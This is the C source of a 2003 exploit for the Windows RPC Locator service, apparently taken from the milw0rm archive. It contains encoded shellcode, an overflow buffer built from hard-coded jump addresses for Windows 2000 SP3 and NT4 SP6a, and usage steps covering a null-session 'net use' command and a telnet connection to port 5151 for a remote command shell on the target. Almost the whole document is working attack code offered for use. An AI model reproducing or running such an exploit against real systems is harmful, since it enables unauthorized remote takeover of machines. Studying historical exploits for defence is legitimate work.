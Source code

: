 EXP
---

    /****************************************************************************
    rpcexp.c
    RPC LOCATOR Exploit
    Autor: Marcin Wolak
    mail: mwolak11@wp.pl
    Last update: 30 march 2003
    ****************************************************************************/

    /*****************************************************************************
    About Compilation:
    What You need to compile rpcexp.c ?
    1. MS Platform SDK (August SDK is sufficient).
    2. Compilator (f.e. MS Visual C++ 6.0).
    rpcns4.lib is needed for linking.
    *****************************************************************************/

    /*****************************************************************************
    Usage (You want to exploit remote Windows 2000 system (w2khost) with running RPC
    Locator Service):
    1. Set registry values in Your workstation as below:
    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Rpc\NameService\NetworkAddress = w2khost
    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Rpc\NameService\ServerNetworkAddress = w2khost
    2. Establish null session:
    net use \\w2khost\ipc$ ""/u: ""
    3. Run Exploit:
    rpcexp.exe /os w2ksp3

    If everything it's ok, rpcexp hangs in console window. You can go to second
    cmd console, run telnet (on port 5151) and get cmd on w2khost - just run
    on second console:

    telnet w2khost 5151

    WARNNING !
    With this shellcode You can get remote cmd only once. Second attempt will
    be rejected.

    WARNNING !!
    Currently only Windows 2000 Sp3 and Windows NT 4 Sp6a are exploitable with
    rpcexp.

    *****************************************************************************/

    #define UNICODE
    #define RPC_UNICODE_SUPPORTED

    #define NT4SP6ABRD 0x42
    #define W2KSP3BRD 0x142

    #define NT4SP6AJMP 0x0147FBC4
    #define W2KSP3JMP 0x0090F8F0

    #define NT4SP6ALLA 0x77F137BD
    #define NT4SP6AGPA 0x77F13FB3

    #include <stdio.h>
    #include <rpc.h>
    #include <rpcnsi.h>


    #define PURPOSE \
    "RPC Locator exploit utility \n\
    Autor: Marcin Wolak - march 2003 \n\
    mail: mwolak@gazeta.pl \n\n\
    Tested on:\n\n\
    Windows 2000 SP3 \n\
    Windows NT 4.0 SP6a \n\n\
    Only for educational purposes !!!.\n\n\
    Usage:\n\
    rpcexp.exe /v  - to view rpcexp info.\n\
    rpcexp.exe /os w2ksp3 - to exploit Windows 2000 Sp3.\n\
    rpcexp.exe /os ntsp6a - to exploit Windows NT 4 Sp6a.\n"


    char shellcode [] =
    "\xEB\x13\x5F\xB9\xCF\x02\xCF\x02\xC1\xE9\x10\x57\x80\x37\x99\x47\xE2\xFA\x5F\xEB"
    "\x05\xE8\xE8\xFF\xFF\xFF\x14\x2E\x42\x98\x99\x99\x14\x06\x59\x9B\x99\x99\xCF\x66"
    "\x8A\xCE\x14\x06\x5D\x9B\x99\x99\x14\x26\x54\x9B\x99\x99\x10\x5B\x65\xA8\x50\x28"
    "\x94\xD0\xA9\x59\x35\x1D\x59\xEC\x60\xCA\xCB\xC8\xCF\xCB\x66\x8A\x32\xC0\xC3\xC2"
    "\x7B\x75\xC2\xCA\x14\x02\x59\x9B\x99\x99\xA9\x59\x35\x1D\x59\xEC\x60\xCF\x66\x8A"
    "\x10\x5B\xC2\xCA\x14\x02\x5D\x9B\x99\x99\x65\xA8\x50\x28\x9E\xA9\x59\x35\x1D\x59"
    "\xEC\x60\xCA\xCB\xC8\xCF\xCB\x66\x8A\x32\xC0\xC3\xC2\x7B\x75\xA8\x59\x2D\x9D\xC9"
    "\x58\x71\x9D\xC9\x66\xCE\x55\x10\x5B\xC2\xCA\x14\x02\x25\x99\x99\x99\xA8\x50\x18"
    "\x58\xC4\x9B\x99\x99\xC9\x13\x8A\x11\x89\xDA\xD9\x7B\x61\xC1\x14\x02\x15\x99\x99"
    "\x99\xCA\xF1\x99\x99\x99\x99\xC9\xC9\xF1\x99\x99\x99\x99\xF1\x99\x99\x99\x99\x66"
    "\xCE\x21\xC9\xF1\x99\x89\x99\x99\x66\xCE\x41\xC1\x72\x6D\x70\x9E\x9B\x99\x99\xC6"
    "\xCE\x18\x5E\xD5\x99\x99\x99\x10\x67\x18\x5F\x16\x66\x66\x66\xC2\x18\x5A\x39\x99"
    "\x99\x99\xCA\xF1\x9B\x9B\x99\x99\x66\xCE\x7D\xA8\x59\xC9\xD9\xC9\xD9\xC9\x66\xCE"
    "\x71\x0A\xF1\x89\x99\x99\x99\xCF\xCA\x66\xCE\x75\xF1\x9B\x99\x99\x99\xCA\x66\xCE"
    "\x69\xA8\x59\xCE\xC9\x29\x95\x32\xC1\x32\xD9\x32\xC6\xD1\xC9\xCE\xCF\x34\xCF\x66"
    "\xCE\x25\xD1\xC9\xCE\x34\xCF\x34\xCF\x66\xCE\x25\xD1\x29\xDD\x10\x9E\xCE\x66\xCE"
    "\x59\xA8\x59\x12\xDF\x6D\x10\xDE\xA5\x10\xDE\xD9\x12\x9F\x10\xDE\xA1\xA8\x59\xFF"
    "\x21\x98\x98\x10\xDE\xB5\xCE\xCE\xA8\x59\xC9\xC9\xC9\xD9\xC9\xD1\xC9\xC9\x34\xCF"
    "\xA8\x59\xC9\x66\xCE\x5D\x66\xEF\x69\x66\xCE\x79\x66\xEF\x65\x66\xCE\x79\xD1\xC9"
    "\xC9\xCA\x66\xCE\x6D\x10\x5A\xA8\x59\x2D\x9D\xC9\x58\x71\x9D\xC9\x66\xCE\x55\x10"
    "\x5F\xA8\x59\x10\x58\x2C\x9D\xC9\xC9\xCE\xC8\xCF\x66\xEE\x0A\x66\xCE\x51\x18\xA6"
    "\x98\x99\x99\x99\xE5\xBC\xA8\x59\xC9\xCE\x66\xAE\xCF\x66\xEE\x0A\x66\xCE\x4D\x90"
    "\x59\xED\x8D\xA8\x59\xC9\x66\xAE\xCF\xCA\x66\xCE\x61\xF1\xC9\x99\x99\x99\x66\xCE"
    "\x41\x72\x5B\xA8\x59\xC9\x2D\x9D\xC9\xCF\xCA\x66\xCE\x65\xCE\xA8\x50\xC8\xC9\xCF"
    "\x66\xEE\x0E\x66\xCE\x49\xF1\xC9\x99\x99\x99\x66\xCE\x41\x72\x38\xC9\x66\xCE\x45"
    "\x09\xD2\xDC\xCB\xD7\xDC\xD5\xAA\xAB\x99\xDC\xE1\xF0\xED\xCD\xF1\xEB\xFC\xF8\xFD"
    "\x99\xDA\xEB\xFC\xF8\xED\xFC\xCD\xF1\xEB\xFC\xF8\xFD\x99\xDA\xEB\xFC\xF8\xED\xFC"
    "\xC9\xF0\xE9\xFC\x99\xDE\xFC\xED\xCA\xED\xF8\xEB\xED\xEC\xE9\xD0\xF7\xFF\xF6\xD8"
    "\x99\xDA\xEB\xFC\xF8\xED\xFC\xC9\xEB\xF6\xFA\xFC\xEA\xEA\xD8\x99\xC9\xFC\xFC\xF2"
    "\xD7\xF8\xF4\xFC\xFD\xC9\xF0\xE9\xFC\x99\xDE\xF5\xF6\xFB\xF8\xF5\xD8\xF5\xF5\xF6"
    "\xFA\x99\xCE\xEB\xF0\xED\xFC\xDF\xF0\xF5\xFC\x99\xCB\xFC\xF8\xFD\xDF\xF0\xF5\xFC"
    "\x99\xCA\xF5\xFC\xFC\xE9\x99\xDC\xE1\xF0\xED\xC9\xEB\xF6\xFA\xFC\xEA\xEA\x99\xDA"
    "\xF5\xF6\xEA\xFC\xD1\xF8\xF7\xFD\xF5\xFC\x99\xCE\xCA\xD6\xDA\xD2\xAA\xAB\x99\xCE"
    "\xCA\xD8\xCA\xED\xF8\xEB\xED\xEC\xE9\x99\xEA\xF6\xFA\xF2\xFC\xED\x99\xFB\xF0\xF7"
    "\xFD\x99\xF5\xF0\xEA\xED\xFC\xF7\x99\xF8\xFA\xFA\xFC\xE9\xED\x99\xEA\xFC\xF7\xFD"
    "\x99\xEB\xFC\xFA\xEF\x99\x9B\x99\x8D\x86\x99\x99\x99\x99\x99\x99\x99\x99\x99\x99"
    "\x99\x99\xFA\xF4\xFD\xB7\xFC\xE1\xFC\x99\xFD\x06\x71\xEE\x81\x02\x71\xEE\x71\x6D"
    "\x64\x66\x66\x99\x99\x99\x99\x99\x99\x99\x99\x99\x99\x99\x99\x99\x99\x99\x99\x99";

    void Usage(char * pszProgramName)
    {
        fprintf(stderr, "%s", PURPOSE);
        exit(1);
    }

    void _CRTAPI1 main(int argc, char **argv)
    {
        unsigned short mytab[2000];             // Exploit Buffer
        unsigned char * TmpEntryName  = NULL;       // Temporary Entry.
        unsigned long * EntryName  = NULL;
        unsigned long * TmpPtr  = NULL;
        unsigned short * pszStrBinding = NULL;
        RPC_NS_HANDLE hnsHandle;
        unsigned long NsSntxType = RPC_C_NS_SYNTAX_DEFAULT;
        RPC_STATUS status;
        short fSuccess = 0;
        short fContinue = 1;
        unsigned long i,k;

        unsigned long * PtrLLA = (unsigned long*) &shellcode[730];
        unsigned long * PtrGPA = (unsigned long*) &shellcode[734];
        unsigned long JMP = W2KSP3JMP;
        unsigned long BORDER = W2KSP3BRD;

        switch(argc){
            case 2:
                if((strlen(argv[1]) == 2) && (!strcmp(argv[1],"/v")))
                    Usage(argv[0]);
                else
                    printf("Bad arguments !!!\n");
                exit(2);
            case 3:
                if((strlen(argv[1]) == 3) && (strlen(argv[2]) == 6) &&
                   (!strcmp(argv[1],"/os")) && (!strcmp(argv[2],"w2ksp3")))
                   break;
                if((strlen(argv[1]) == 3) && (strlen(argv[2]) == 6) &&
                   (!strcmp(argv[1],"/os")) && (!strcmp(argv[2],"ntsp6a")))
                {
                    (*PtrLLA) = NT4SP6ALLA ^ 0x99999999;
                    (*PtrGPA) = NT4SP6AGPA ^ 0x99999999;
                    JMP = NT4SP6AJMP;
                    BORDER = NT4SP6ABRD;
                    break;
                }
            default:
                Usage(argv[0]);

        }

        EntryName = (unsigned long *) mytab;
        TmpEntryName = (unsigned char *) mytab;
        TmpEntryName[0] = '/';
        TmpEntryName[1] = 0;
        TmpEntryName[2] = '.';
        TmpEntryName[3] = 0;
        TmpEntryName[4] = ':';
        TmpEntryName[5] = 0;
        TmpEntryName[6] = '/';
        TmpEntryName[7] = 0;
        for (i=2;i<768;i++)
        {
            if(i <= BORDER)
                EntryName[i] = JMP;
            if(i == BORDER)
            {
                TmpPtr = (unsigned long*) shellcode;
                for(k = 0;k < 190;k++)
                    EntryName[i+k] = TmpPtr[k];
                i += 189;
            }
            if(i > BORDER)
                EntryName[i] = JMP;
        }
        EntryName[768] = 0;

          RpcTryExcept {
              status = RpcNsBindingLookupBegin(NsSntxType,
                                             (unsigned short *) EntryName,
                                             0,
                                             NULL,
                                0,
                                &hnsHandle);
              printf("RpcNsBindingLookupBegin returned 0x%x\n", status);
          }
          RpcExcept(1){
              printf("RPC Runtime raised exception 0x%x\n", RpcExceptionCode());
          }
          RpcEndExcept
    } /*End of Main*/

    // milw0rm.com [2003-04-03]
